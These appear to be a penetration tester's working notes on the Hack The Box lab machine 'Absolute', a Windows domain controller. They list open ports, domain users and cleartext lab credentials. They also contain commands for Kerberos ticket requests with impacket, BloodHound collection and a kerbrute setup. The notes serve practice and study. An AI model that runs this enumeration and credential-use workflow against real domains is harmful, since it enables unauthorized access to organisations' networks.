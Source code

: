 # Absolute Notes

## Data 

IP: 10.129.147.44
OS: Windows 10.0 Build 17763 x64
Hostname: absolute
Domain:  dc.absolute.htb, absolute.htb
Domain SID: S-1-5-21-4078382237-1492182817-2568127209
Machine Purpose: Domain Controller
Services:53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49673,49692,49693,49699,49704,49714,49718
Service Languages:
Users: m.chaffrey,j.roberts,s.osvald,j.robinson,d.klay,n.smith
Credentials:

```
d.klay : Darkmoonsky248girl
```

## Objectives

## Target Map

## Solution Inventory Map


### Todo 


### Done

```
d.klay@ABSOLUTE.HTB : Darkmoonsky248girl

SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!
```
      
```bash
sed -i 's/10.129.229.59/10.129.229.59/g' Absolute-*.md

sudo sed -i 's/10.129.229.59/10.129.229.59/g' /etc/hosts

echo "10.129.229.59 dc.absolute.htb absolute.htb" | sudo tee -a /etc/hosts
sudo ntpdate -s dc.absolute.htb
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/d.klay:Darkmoonsky248girl
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/SVC_SMB:AbsoluteSMBService123!
# /opt/BloodHound.py/bloodhound.py
# bloodhound-python
# Beware docker container need to be sync to DC!

KRB5CCNAME=d.klay.ccache $bloodhoundPythonInstallMethod -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```

VM requires
```bash
cd /opt/
git clone https://github.com/ropnop/kerbrute.git
wait
cd kerbrute/
go build
wait
cd /opt/
echo "\n# Kerbrute Alias" | tee -a ~/.zshrc
echo "alias kerbrute='/opt/kerbrute/kerbrute" | tee -a ~/.zshrc


source ~/.zshrc
```